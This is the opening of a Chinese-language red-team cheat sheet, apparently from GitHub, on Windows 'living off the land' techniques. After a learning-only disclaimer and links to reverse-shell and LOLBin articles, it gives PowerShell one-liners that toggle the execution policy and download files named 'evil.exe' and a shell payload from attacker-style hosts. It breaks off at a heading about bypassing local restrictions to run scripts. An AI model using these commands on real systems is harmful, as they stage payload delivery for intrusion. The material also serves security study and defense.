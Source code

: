 # Windows-LOL

`Living Off The Land`

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**相关文章**
- [Get Reverse-shell via Windows one-liner](https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/)
- [What Are LOLBins and How Do Attackers Use Them in Fileless Attacks? - Cynet](https://www.cynet.com/attack-techniques-hands-on/what-are-lolbins-and-how-do-attackers-use-them-in-fileless-attacks/)
- [Windows文件下载执行的15种姿势](https://mp.weixin.qq.com/s/tINvBuhiZwz7MbA_sffapA)
- [命令行上线小技巧](https://blog.m1kh.com/index.php/archives/694/)

**相关资源**
- [LOLBAS](https://lolbas-project.github.io/)

---

## Powershell

### 开启执行策略

```powershell
set-ExecutionPolicy RemoteSigned
```

### 关闭执行策略

```powershell
set-ExecutionPolicy Restricted
```

### 远程下载文件保存在本地

```powershell
powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.1.1/1/evil.txt','evil.exe')

# 或

$h=new-object System.Net.WebClient
$h.DownloadFile('https://xxx.com/payload/shell/test.sh','C:\Users\xxx\Desktop\test\test.sh')
```

### 命令行执行 ps1 文件 (绕过本地权限执行)
